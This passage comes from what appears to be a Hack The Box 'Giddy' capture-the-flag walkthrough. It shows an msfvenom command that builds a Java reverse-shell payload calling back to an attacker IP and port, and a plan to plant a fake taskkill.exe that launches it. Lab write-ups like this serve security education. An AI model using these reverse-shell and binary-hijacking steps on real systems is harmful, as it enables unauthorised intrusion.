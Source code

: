 ![c0bcb185.png](/assets/images/posts/giddy-htb-walkthrough/c0bcb185.png)
</a>

You'll notice that `avservice.exe` is no longer running. And, because I love to get me a shell, I'll attempt to spawn a reverse shell with Java no less. I'd noticed previously Java Runtime Environment (JRE) is available.

The following takes place on my attacking machine.

&hellip;

I'll use `msfvenom` to generate the reverse shell.

```
# msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.169 LPORT=1234 -f jar -o rev.jar
Payload size: 7548 bytes
Final size of jar file: 7548 bytes
Saved as: rev.jar
```

Next, I'll cross-compile a MZ executable that runs the following command `java -jar rev.jar`. Guess what's the file name of the executable? If you guess `taskkill.exe`, ten points for Gryffindor!

<div class="filename"><span>taskkill.c</span></div>
